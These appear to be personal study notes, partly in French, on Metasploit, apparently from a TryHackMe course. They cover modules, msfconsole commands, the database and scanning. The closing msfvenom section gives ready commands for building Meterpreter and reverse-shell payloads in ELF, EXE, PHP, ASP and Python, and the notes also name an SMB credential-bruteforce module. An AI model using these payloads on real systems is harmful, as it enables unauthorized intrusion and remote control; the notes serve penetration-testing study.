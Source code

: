 Metasploit / msf

- msfconsole

- tools :
	- msfvenom
	- pattern_create } used in exploit dvpt
	- pattern_offset }
	
- Modules :
	(types :  exploits / vulnerability / payloads)
	
	- Auxiliary -> any supporting module : scanners / fuzzers / crawlers
		liste : $ tree -L 1 auxiliary/ 
	- Encoder -> encode a payload in hope firewalls dont stop it
		  -> detect is based on comparing with known threats DataB
		liste : $ tree -L 1 encoder/
	- Evasion: attempt to evade antivirus software (works on encoded pl)
		$ tree -L 2 evasion/
	- Exploits 
		$ tree -L 1 exploits/
	- NOPs: NOPs (No OPeration) do nothing, literally.
		 often used as a buffer to achieve consistent payload sizes
		$ tree -L 1 nops/
	-Post -> post exploitation (end of a pentest)
		$ tree -L 1 post/
	- PAYLOADS : The codes that will run on the target system. 
		$ tree -L 1 payloads/
		IMPORTANT : 3 CATEGORIES :
			Singles : Self-contained payloads (work alone)
			Stagers : Set up a connection between msf and a 
				the target system / useful when working with
				staged payloads / Small piece that is sent
				first. It will download the rest of the pl
			Stages: Downloaded by the stager. 
				This will allow you to use larger sized
				payloads.
				
		DIFFERENCIATION :
			Single payloads : as above
			Staged payloads : send first a stager and a stages
				it's a larger payload
				
		IDENTIFY SINGLE/INLINE VS STAGED PL (between shell&reverse):
			generic/shell_reverse_tcp	-> _ mean single
			windows/x64/shell/reverse_tcp	-> / mean staged
			
MSFCONSOLE work similarly to a normal shell:
	$ msfconsole 
	(unless set as a global variable, all parameter settings will be
	lost if you change the module)
	
	BASICS COMMAND LINES :
		$ history
		$ help <command>
		$ use Path/to/the_exploit ou nombre apres un search
		$ show options	-> shows selected exploit related options
		$ show payloads ou le type d'un module -> module related to 
		the selected exploit
		$ back -> leave context (like exit)
		$ info -> info related to the exploit
		$ search cve number ou exploit name , any key word...
			- give the path / the rank :
			https://docs.metasploit.com/docs/using-metasploit/
			intermediate/exploit-ranking.html
		$ set NAMEOFPARAM
		$ setg NAMEOFPARAM -> global set
		$ unset NAMEOFPARAM ou marche avec unset all
		$ unsetg NAMEOFPARAM
		$ exploit ou $ run -> lance l'exploit
			- -z flag to run it in bg
		$ check -> regarde si la target est vulnérable avant de $run
		$ backgroung ou CTRL+Z
		$ sessions -> displauys any active sessions
			- -i <session nb> flag to interact with any session
		
	EXPLOIT PARAMS :
		RHOST : target IP (also works with ip/16 and 
			range IP.52-IP.56 to scan a range of ip
			even with a file.txt (1 IP per line)
		RPORT : target port
		Payload : the pl we are using
		LHOST : local host (our ip)
		LPORT : local Port (our port)
		SESSION : Each connection using Metasploit will have a 
			session ID. 
			You will use this with post-exploitation modules
			that will connect to the target system using an
			existing connection.
		
PORT SCANNING :
	$ search portscan
	$ use x
	$ set params
	$ exploit
	PARAMETERS :
		CONCURRENCY: Number of targets to be scanned simultaneously.
		PORTS: Port range to be scanned. (1-10 000 by default)
		RHOSTS:
		THREADS: Number of threads that will be used simultaneously. 
			nmapMore threads will result in faster scans. 

UDP service Identification :
	exploit : scanner/discovery/udp_sweep
	quick way to identify services such as DNS or NetBIOS. 

SMB Scans:
	 expl = smb_enumshares or smb_version
	 
RANDOM USEFUL MODULES :
	- all portscanners modules
	- http_version
	- smb_login -> bruteforce usernames and passwords in smb
	- exploit/multi/handler -> comme netcat mais avec les msfrshells
	
MSF DATABASE :
	To store informations about targets
	
	Launching : (it may take 2min to load)
		$ systemctl start postgresql (in normal shell)
		$ sudo msfdb init (in normal shell)
		Now in msfconsole :
		$ db_status
	
	In DB ($msf console -q): /!\ -q may save me
		$ workspace -> show available workspace
		    -a, --add <name>          Add a workspace.
		    -d, --delete <name>       Delete a workspace.
		    -D, --delete-all          Delete all workspaces.
		    -h, --help                Help banner.
		    -l, --list                List workspaces.
		    -r, --rename <old> <new>  Rename a workspace.
		    -S, --search <name>       Search for a workspace.
		    -v, --list-verbose        List workspaces verbosely.
		$ help (in msf shell) -> displays backend DB command
	
	USEFULL things :
		$ db_nmap = marche exactement comme nmap mais stock les data
		$ hosts ->
			-h -> help
			-R -> add db value tu RHOST parameter
		$ services ->
			-h -> help
			-S serviceName -> search for a specific service
			
			SERVICES INTERSSANTS
    			HTTP: potentially host a  web application with
    				vulnerabilities (SQLi) or  (RCE). 
    			FTP: Could allow anonymous login 
    			SMB: Could be vulnerable to SMB exploits like
    				MS17-010
    			SSH: Could have default or easy to guess credentials
    			RDP: Could be vulnerable to Bluekeep or allow
    				desktop access if weak credentials were
    				used. 


 VULNERABILITY SCANNING :
 	looking for easily identifiable vulns
 	look for scanners modules
 	
EXPLOIT
	$ search xxx
	$ info
	...
	$ exploit
	
	Exploits have a preset payload but we can change it
		$ show payloads
		$ set payloadnumber
		(it may add/del parameters)
		
MSFVENOM : work as msfpayloads and msfencode
	Liste des payloads :
		$ msfvenom -l payloads
	Formats des payloads crées possibles :
		$ msfvenom --list formats
	
	exemple : msfvenom -p php/meterpreter/reverse_tcp
		LHOST=10.10.186.44 -f raw -e php/base64
	
	Flags :
		-p pathtopayload : payload
		-e encode format : encode
		-f : output format
	
	USEFULL PAYLOADS :
	/!\ probleme d'IP avec openvpn : thm n'affiche pas la bonne ??
		ELF :
		msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
		WINDOWS :
		msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
		PHP : (/!\ necessite de modifier le debut avec <?php et la fin avec ?>)
		msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
		ASP :
		msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
		PYTHON :
		msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
